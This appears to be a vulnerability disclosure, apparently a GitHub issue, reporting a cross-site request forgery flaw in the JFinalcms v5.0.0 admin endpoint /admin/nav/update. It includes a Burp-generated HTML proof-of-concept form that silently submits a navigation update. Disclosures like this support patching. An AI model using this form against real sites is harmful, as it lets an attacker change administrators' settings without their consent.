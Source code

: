 target:https://gitee.com/heyewei/JFinalcms

version:v5.0.0

JFinalcms v5.0.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /admin/nav/update

![图片](https://github.com/ysuzhangbin/cms/assets/27912238/ed135a23-5833-4c5f-b32e-dc09d62538bf)


create poc

![图片](https://github.com/ysuzhangbin/cms/assets/27912238/a91127a0-cd2c-4cb2-a606-78e3dc2aa3dd)


```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:8888/admin/nav/update" method="POST">
      <input type="hidden" name="id" value="96" />
      <input type="hidden" name="name" value="cs&#32;123" />
      <input type="hidden" name="parentId" value="" />
      <input type="hidden" name="image" value="" />
      <input type="hidden" name="file" value="" />
      <input type="hidden" name="url" value="" />
      <input type="hidden" name="isOutlink" value="0" />
      <input type="hidden" name="sort" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

successed

![图片](https://github.com/ysuzhangbin/cms/assets/27912238/bae1fd39-77e3-4154-8854-bdedd3277aa7)

